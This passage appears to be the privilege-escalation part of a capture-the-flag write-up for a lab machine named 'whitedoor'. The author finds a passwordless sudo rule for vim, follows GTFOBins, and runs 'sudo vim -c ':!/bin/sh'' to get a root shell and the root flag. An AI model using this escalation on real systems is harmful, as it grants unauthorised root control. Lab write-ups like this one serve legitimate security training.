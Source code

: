 ## Privilege Escalation

- Explore sudoers configuration for privilege escalation

```shell
Gonzalo@whitedoor:~/Desktop$ sudo -l
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

- Found out that user can run vim command without needing to be root user

#### >> Look <a href="https://gtfobins.github.io/gtfobins/vim/"> GTFObins </a> to find out udo privilege escalations for vim

```shell
sudo vim -c ':!/bin/sh'
```
- Let's Escalate!!!

```shell
Gonzalo@whitedoor:~/Desktop$ sudo /usr/bin/vim -c ':!/bin/sh'

# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls  	
root.txt
```
- And boom we own the machine, and also go the root flag!! 👾

